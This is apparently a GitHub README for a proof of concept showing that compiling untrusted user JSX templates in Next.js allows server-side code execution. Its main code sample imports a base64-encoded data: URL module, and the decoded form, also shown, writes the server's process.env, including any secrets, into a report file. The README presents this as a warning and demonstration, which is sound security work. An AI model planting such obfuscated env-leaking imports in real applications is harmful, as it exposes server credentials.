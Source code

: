 # PoC: Next.js x Untrusted User Template Compilation

You should not compile Untrusted User Template(JSX/React Component), because it will cause Remote Code Execution.

> Search Word: Server Side Template Injection

## Code

```js
export default function Home() {
    import('data:text/javascript;charset=utf-8;base64,cHJvY2Vzcy5yZXBvcnQud3JpdGVSZXBvcnQoInRlc3QiLCBuZXcgRXJyb3IoSlNPTi5zdHJpbmdpZnkocHJvY2Vzcy5lbnYpKSk7IGV4cG9ydCBkZWZhdWx0IDE7').then(r => {
        console.log(r)
    });
    return <></>
}
```

Raw:

```js
process.report.writeReport("test", new Error(JSON.stringify(process.env))); export default 1;
```

1. Stringify `process.env`
2. Write the env to `test` file

It will leak your server environment as a file. 

References:

- [Evaluating JavaScript code via `import()`](https://2ality.com/2019/10/eval-via-import.html)
- [process.report.writeReport([filename][, err])](https://nodejs.org/api/process.html#processreportwritereportfilename-err)

## Dev

    yarn install
    yarn static-build


## Related

- [[クライアントサイド〜サーバーサイド] テンプレートエンジンでのセキュリティ的な問題や考え方 | Web Scratch](https://efcl.info/2019/12/27/template-engine-security/)
